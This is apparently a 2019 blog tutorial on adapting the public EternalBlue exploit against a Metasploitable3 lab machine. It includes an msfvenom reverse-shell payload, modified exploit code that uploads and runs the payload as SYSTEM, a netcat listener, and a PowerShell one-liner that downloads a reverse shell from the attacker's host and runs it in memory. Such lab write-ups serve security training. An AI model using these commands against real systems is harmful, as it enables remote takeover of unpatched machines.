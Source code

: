 ```yaml
---
layout: post
title:  "Eternal Blue without Metasploit"
date:   2019-10-15 18:05:55 +0300
image:  EternalBlue/title.png
author-name: strik1r
tags:   [Eternal, Blue, Without Metasploit, Exploit modification]
---
```


<h2>Prologue:</h2>
I wanted to create a Without Metasploit series. Here we would look and modify famous exploits without using the Metasploit framework. What would be the best way to start then with Eternal Blue?
<h3> Environment </h3>
The easiest way to find an environment to test on, is to get Hack The Box VIP and attack Blue.
Setting up your lockal vm, try Metasploitable 3 [Metasploitable3](https://github.com/rapid7/metasploitable3) 
I will go with the Metasploitable now. For the EternalBlue to work I had to thisable the firewall on metasploitable3.
Metasploitable ip: 10.0.2.15

Attacker
There are a few things you need to set up on your attacker machine too. First install pip, then impacket. Attacker IP: 10.0.2.4
```
sudo apt-get update
sudo apt install python-pip
git clone https://github.com/SecureAuthCorp/impacket
cd impacket-master
pip install .
```
From here it should work just fine.
<h3> The Exploit </h3>
If you do a ```searchsploit eternalblue``` you will get the exploit 42315.py
![searchsploit](/img/EternalBlue/searchspolit.png)
Copy it to our directory ```searchsploit -m 42315.py```

Now let's start to look at what do we have in this file.

first we can see the lines:
```from impacket import smb, smbconnection
from mysmb import MYSMB```
We already have impacket but what about mysmb? With a little googleing we can find that too.
```wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py```

Now we can go deeper.

```USERNAME = ''
PASSWORD = ''```
We should change this if we find valid smb credentials. Going a little be down, there is a nicely named function find_named_pipe. This means that we
don't need to run other exploit/scanning to find our named pipes because this is already included in the exploit itself. However checking the first lines
of the function reveals the default pipes that the function will search for. ```pipes = [ 'browser', 'spoolss', 'netlogon', 'lsarpc', 'samr' ]``` you can expend
this list if you did not succed for the first try.


<h4>Sample Request:</h4>
First, let's run it agains the target.
[FAIL](/img/EternalBlue/fail.png)
This did not go very well. No named Pipe was found. We can add more possible named pipe to our list, and give it another try. It failed again. From here we have another option. 
If we know valid credentials, then we could try to use it. Adding vagrant/vargrant to the Username Password section.
```USERNAME = 'vagrant'
PASSWORD = 'vagrant'```
Running the code it will execute and create C:\pwned.txt on the machine.
[PWNED](/img/EternalBlue/pwned.PNG)
We can log in and check the file. It should be there. That is ok but vagrant is an admin user. If we have credentials then we probably do not need this exploit at all.

<h3> Eternal Blue as Privilege escalation </h3>
Let's create a test user with test as password. User test should not be admin this time. By loging in as test, you can see that you are unable to create c:\pwned.txt.
[testUser](/img/EternalBlue/test.PNG)
Adding these credentials to our exploit and running it, will once again create the file pwned.txt This means that we have non-admin credentials but we could still execute commands as admin.
We can see on the included picture that user test cannot delete the file.
[testUser](/img/EternalBlue/delete.PNG)
<h3> Modifying the exploit</h3>
In case you can find a working pipe name or use credentials, creating a file on the target machine may not be that usefull for us. Let's modify the exploit code to get a reverse shell.
First let's find the exploit in the code. looking in the code, we can find a function called smb_pwn.
```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	```
Let's look at it line by line. First line will create a smb connection. This is what we eill use to interact with the machine.
The next line is a print, this will just write a line for us so we know what is currently happening.
Then we will connect to the Driver C so we can egn our modification there. This is saved in a variable so in the next line we can finaly create a file called pwned.txt.
Finaly we will close the connection.
<h3> Upload shell</h3>
Let's create our reverse shell first:
```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell-x86.exe```
Then modify the code so it will upload and run our exploit
```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	smb_send_file(smbConn, 'shell-x86.exe', 'C', '/test.exe')
	service_exec(conn, r'c:\test.exe')
```
The function now only has 3 lines. First we create an smb connection. Then we send our exploit to the target, it will be created in C:/test.exe. Then in the last line we will execute our code and get a reverse shell on our machine on port 443.
First let's start a listener on our attacker machine then execute our code.
```nc-lvnp 443```
[UploadExploit](/img/EternalBlue/uploadExploit.PNG)
We can see that the exploit run and we got back a reverse shell as System.

<h3>To memory</h3>
We got what we wanted. But this is not the best case. We created a file in the system which is detectable. Let's find a better way. We saw that we can execute commands.
With the use of Powershell, we can download things on the machine and executing them while everything will be done in memory.
Let's download the famous nishang powershell shell
```wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1```
Now we have to modify this a little bit. to inmidiatly invoke the reverse shell we should add this line to the end of the file:
```Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 443```
This way when the file gets downloaded with powershell, we will immidiately call the main function with our ip address and port to connect back to. I also renamed the file to test.ps1
Next we need to download the file with our exploit. For this we only need one line in our function.
```service_exec(conn, r"cmd /c powershell iex(new-object net.webclient).downloadstring('http://10.0.2.4/test.ps1')")```
Here we spawn cmd and from there we will call powershell to download and execute the ps1 script that is hosted in our machine. Notice that by adding the extra line to the script, we just need to download the file to get a revers shell.
Finaly we need to host the script somehow. For this go into the folder where the test.ps1 is located and create a http server. For example with:
```python -m SimpleHTTPServer 80```
We will need 3 command window for this to work. one to host our server, one for the listener and one which will execute theexploit itself.
[InvokeExploit](/img/EternalBlue/invoke.PNG)
We can see it worked. pulled the file from our server and we got the reverse shell back.
<br>


link[@WarMarx](https://twitter.com/\_WarMarX\_) 